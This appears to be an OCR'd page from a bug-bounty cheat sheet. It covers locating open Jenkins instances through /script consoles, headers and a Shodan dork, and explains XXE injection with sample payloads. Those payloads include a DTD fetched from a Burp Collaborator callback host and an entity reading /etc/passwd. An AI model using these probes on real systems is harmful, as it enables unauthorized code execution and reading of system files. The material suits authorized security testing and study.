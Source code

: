 **Unauthenticated Jenkins Instance**

```
Sometimes an application will be running Jenkins which allows Guest/Anonymous signups with /script enabled which allows code exec

Also if you can install plugins there is a terminal plugin

Try dirsearch for /script or use this script to find live Jenkins instances.

Also worth checking Port 8080 alongside 443,80


I recommened if you are working on a big program with thousands of domains to grep for jenkins and pipe all subdomains into full tcp ports scans. Sometimes the instance can be running on a weird port :) 


Also grep for these headers

X-Hudson: 1.395
X-Jenkins: 2.204.2
X-Jenkins-Session: d615ef86
X-You-Are-Authenticated-As: anonymous
X-You-Are-In-Group-Disabled: JENKINS-39402: 


Shodan Dork to Find Open Jenkins Instances

x-jenkins 200
```

**XML External Entity (XXE)**

```

#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

XML is essential a language designed to transport data in a structured format, ,similar to JSON.

Basic XXE Check

<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data SYSTEM "http://123123123.burpcollaborator.net/m0chan.dtd"><data>&all;</data>

XXE is a vuln that occurs when an application parses XML. 


<?xml version="1.0"?>
<!DOCTYPE note [
<!ENTITY user "m0chan">
<!ENTITY message "m0chanmessage">
]>

In this example the ENTITY user holds the info m0chan which can be called with &user

Now this is useful as we get something called EXTERNAL ENTITY which will load the data from a external resource in comparison to something "local"

Examples:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://m0chan.github.io" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>


```